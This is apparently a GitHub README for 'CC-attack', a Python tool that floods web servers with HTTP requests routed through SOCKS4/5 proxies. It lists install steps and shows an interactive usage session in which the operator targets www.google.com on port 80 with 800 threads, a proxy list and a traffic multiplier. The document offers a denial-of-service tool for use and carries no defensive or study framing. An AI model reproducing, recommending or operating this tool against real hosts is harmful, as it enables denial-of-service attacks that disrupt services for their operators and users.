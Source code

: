 # CC-attack
Use Socks to (Http-Flood) attack.
(supports socks4 and socks5 )


# Install

    pip3 install pysocks
    git clone 
    cd CC-attack

# Usage

    python3 cc.py
    
      _   _   _             _
     / \ | |_| |_ __ _  ___| | __
    / _ \| __| __/ _` |/ __| |/ /
   / ___ \ |_| || (_| | (__|   <
  /_/   \_\__|\__\__,_|\___|_|\_\\ V2
python3 version
                     Tool Make by TonyLCH
    > Host/Ip:www.google.com
    > Page you want to attack:/
    > Port:80
    > Threads:800
    > Proxy file path(Bot.txt):bot.txt
    > Number Of Proxies:*****
    > Input the Magnification:100
